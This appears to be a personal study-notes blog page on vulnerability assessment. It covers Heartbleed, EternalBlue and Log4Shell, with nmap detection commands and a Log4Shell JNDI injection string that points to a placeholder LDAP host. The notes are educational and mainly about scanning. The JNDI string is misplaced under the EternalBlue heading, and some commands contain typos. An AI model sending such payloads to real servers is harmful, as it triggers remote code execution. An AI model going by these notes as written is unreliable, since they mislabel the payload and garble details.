 ```yaml
---
title: 'Vulnerability Assessment'
description: ''
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'trip/vulnerability-assessment'
---
```


Risk Management -> Vulnerability Management -> Vulnerability Assessment -> Penetration Test

NIST: National Vulnerability Database

Fix machine vulnerability if that is identified in the risk management process

## OpenSSL Heartbleed bug (CVE-2014-0160)

Do not handle properly Heartbeat Extension packets, which allows remote attackes to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, by reading private keys.

**Anatomy:** We send a packet as the part of TLS entry so there is a TCP HandShake and the next layer above is the encription connection and as part of that public and private key for each side that will encript a shared private key that is simetric.

```bash

$nmap -sV --sript ssl-enum-ciphers -p443 target

#TLSv1.0, TLSv1.1, TLSv1.2 vulnerable

$nmap -p443 --script ssl-heartbleed target

nc -v domain.com 80 # GET / HTTP/1.0

openssl s_client -connect domain.com:443 # GET / HTTP/1.0

```

## EternalBlue - MS17-010 (CVE-2017-0143)

**_${jndi:ldap://demo.local:1389/mycode}_**

Server fails to parse logged data as str and evaluates JNDI lookup, java naming and directory interface

```bash
# script from nmap: smb-vuln-ms17-010
# EternalBlue attack SMBv1 server, BufferOverflow allows to RCE
$nmap -sV -O demo.local

```

## Log4J - (CVE-2021-44228)

Its useful for login in java.

Attacker can control log messages or log message parameters can execute code from LDAP servers

```bash
$nmap --sript log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p8080 172.17.42.1
```

## **NESSUS GUI**

...
